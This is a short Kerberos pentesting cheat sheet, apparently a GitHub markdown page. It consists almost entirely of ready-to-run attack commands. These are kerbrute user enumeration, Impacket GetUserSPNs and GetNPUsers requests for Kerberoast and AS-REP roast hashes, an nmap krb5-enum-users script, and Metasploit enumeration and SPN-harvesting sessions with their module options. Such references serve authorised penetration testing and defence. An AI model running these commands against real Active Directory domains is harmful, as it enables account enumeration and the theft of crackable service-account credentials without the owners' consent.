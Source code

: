 # Kerberos

## 01 - Manual

### 1.1 - Usage

#### 1.1.1 - Enumerate Users

* **Enumerate users against the active directory**

`$ ./kerbrute userenum --dc <IP> -d <domain_name> users.txt -t 64`

#### 1.1.2 - Kerberoast

* **Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account**

`$ GetUserSPNs -request -dc-ip <IP> <domain_name>/<username>:<password>`

#### 1.1.3 - ASREPRoast

* **Request a Kerberos 5, etype 23, AS-REP hash from an NP user account**

`$ GetNPUsers -request -dc-ip <IP> <domain_name>/<username>:<password>`

`$ GetNPUsers -request -dc-ip <IP> <domain_name> -usersfile users.txt`

## 02 - Nmap

`$ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain_name>",userdb=<usernames.txt> <IP>`

## 03 - Metasploit

### 3.1 - Enumerate Users

```
msf > use auxiliary/gather/kerberos_enumusers

msf auxiliary(gather/kerberos_enumusers) > options

Module options (auxiliary/gather/kerberos_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN                      yes       The Domain Eg: demo.local
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USER_FILE                   yes       Files containing usernames, one per line

msf auxiliary(gather/kerberos_enumusers) > set domain <domain_name>

msf auxiliary(gather/kerberos_enumusers) > set rhosts <IP>

msf auxiliary(gather/kerberos_enumusers) > set user_file usernames.txt

msf auxiliary(gather/kerberos_enumusers) > exploit -j
```

### 3.2 Kerberoast

```
msf > use auxiliary/gather/get_user_spns

msf auxiliary(gather/get_user_spns) > options

Module options (auxiliary/gather/get_user_spns):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)
   domain                    yes       The target Active Directory domain
   pass                      yes       Password for the domain user account
   user                      yes       Username for a domain account

msf auxiliary(gather/get_user_spns) > set rhosts <IP>

msf auxiliary(gather/get_user_spns) > set threads 4

msf auxiliary(gather/get_user_spns) > set domain <domain_name>

msf auxiliary(gather/get_user_spns) > set user <username>

msf auxiliary(gather/get_user_spns) > set pass <password>

msf auxiliary(gather/get_user_spns) > exploit
```

### References

• [Impacket/](https://github.com/fortra/impacket)

• [Kerbrute](https://github.com/ropnop/kerbrute)

• [Kerberoasting Common Tools/](https://blog.certcube.com/kerberoasting-common-tools/)

• [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)